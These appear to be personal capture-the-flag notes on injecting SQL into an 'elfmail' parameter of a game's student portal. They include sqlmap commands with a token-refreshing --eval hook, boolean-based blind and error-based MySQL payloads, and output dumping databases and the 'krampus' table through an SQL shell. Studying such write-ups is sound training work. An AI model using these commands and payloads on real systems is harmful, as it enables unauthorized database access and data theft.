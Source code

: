 ```bash
#!/bin/bash
token=$(curl validation)
sqlmap --url="https://url?token=$token" -p variable
```

- Got sqlmap to find that elfmail in the check.php was vulnerable.
- a curl "<https://url?elfmail=me@me.com'token=$token>"
  - got a noice SQL error!
- tamper investigation was not wasted because

```bash
#!/bin/bash
token=$(curl validation)
sqlmap --url="https://studentportal.elfu.org/application-check.php?elfmail=my%40example.com&token=$token" -p elfmail --eval="import requests;token=requests.get('https://studentportal.elfu.org/validator.php').text"
```

- was needed to get sqlmap to find some techniques. Presumably the token only
  worked for the first tests.

```bash
#SNIPSNIP
Parameter: elfmail (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: elfmail=my@example.com' AND 2977=2977 AND 'tYvj'='tYvj&token=MTAwOTU4MTk3Njk2MTU3NzQ3MTgzOTEwMDk1ODE5Ny42OTY=_MTI5MjI2NDkzMDUwODgzMjMwNjYyMzI2LjI3Mg==

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: elfmail=me@example.com' AND (SELECT 4602 FROM(SELECT COUNT(*),CONCAT(0x7176786a71,(SELECT (ELT(4602=4602,1))),0x7162626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'XazW'='XazW&token=MTAwOTU4MTk3Njk2MTU3NzQ3MTgzOTEwMDk1ODE5Ny42OTY=_MTI5MjI2NDkzMDUwODgzMjMwNjYyMzI2LjI3Mg==
```

Could not get the above queries to work in a curl.. maybe some escape messup.
But sqlmap --users find stuff.

```bash
[18:51:19] [INFO] retrieved: 'elfu'
[18:51:20] [INFO] retrieved: 'applications'
[18:51:21] [INFO] retrieved: 'elfu'
[18:51:22] [INFO] retrieved: 'krampus'
[18:51:23] [INFO] retrieved: 'elfu'
```

sqlmap had a nice --sql-shell and with that one could "select \* from
elfu.krampus" which got us some paths:

```bash
select * from elfu.krampus [6]:
[*] /krampus/0f5f510e.png, 1
[*] /krampus/1cc7e121.png, 2
[*] /krampus/439f15e6.png, 3
[*] /krampus/667d6896.png, 4
[*] /krampus/adb798ca.png, 5
[*] /krampus/ba417715.png, 6
```
